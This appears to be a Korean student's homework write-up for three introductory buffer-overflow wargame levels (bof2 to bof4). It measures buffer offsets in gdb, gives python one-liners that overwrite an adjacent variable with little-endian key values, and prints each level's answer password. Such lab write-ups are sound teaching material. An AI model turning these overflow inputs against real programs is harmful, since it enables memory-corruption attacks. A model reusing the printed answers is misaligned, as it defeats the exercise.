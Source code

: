 # hw2 (bof2~4)

> bof2
1. bof1과 동일하나 이번엔 gets로 입력받지 않고 argv로 받은 입력값을 vuln()함수의 인자로 넘기고 그 값을 strcpy()함수를 사용하여 buf에 저장한다. 
2. 1번과 동일하게 innocent와 buf가 선언되어 있으니 방식을 buffer overflow를 이용하여 innocent의 값을 key 값 (0x61616161)와 동일하게 만들어준다.

>> 답(bof3.pw): 78ac9531

>> 풀이:

b.p.1: vuln 함수에서 printf()함수에서 $rsp 주소확인

0x7fffffffeaf0

b.p.2: cmp에서 $rdi 주소값 확인

0x7fffffffeb7c

2번에서 구한 주소값 - 1번에서 구한 주소값 = buf와 innocent 사이의 거리
p/d 0x7fffffffeb7c - 0x7fffffffeaf0 = 140

argv로 입력받는 형식임으로 

./bof2 `python -c "print 'A' * 140 + 'aaaa'"`


> bof3
1. 코드는 bof1과 동일하다. 그러나 KEY값이 0x61616161 -> 0x61로 바뀌었다. 이는 little endian 방식을 고려해야한다.

>> 답(bof4.pw): 64869b0d

>> 풀이:

1번과 동일

b.p.1: 0x7fffffffeb00

b.p.2: 0x7fffffffeb8c

차이: 140

innocent는 INT형으로 4 bytes이다. 그러므로 little endian 방식이라면 입력값을 \x61\x00\x00\x00으로 줘야한다.

(python -c "print 'A' * 140 + '\x61\x00\x00\x00'";cat) | ./bof3


> bof4
1. argv를 입력받는 방식
2. argv를 vuln의 인자로 넘겨주고 strcpy(취약점)을 사용한다.
3. 이떄 buffer overflow를 통해 innocent에 key 값(0x12345678)을 저장하는데 이때 중요한 것은 little endian 방식을 사용해서 입력값에 추가한다.

>> 답(bof5.pw): c75cfe84

>> 풀이:

    b.p.1: strcpy 할 때 $rdi 주소값 0x7fffffffeaf0
    b.p.2: cmp 할 때 $rbp - 4 주소값 0x7fffffffeb7c
    bp1과 bp2 차이 = 140

140만큼 Dummy 값 넣어주고 key 값 (0x12345678)이 나오도록 little endian 방식으로 명령어에 byte 단위로 입력한다
-> \x78\x56\x34\x12

    ./bof4 `python -c "print 'A' * 140 + '\x78\x56\x34\x12'"`
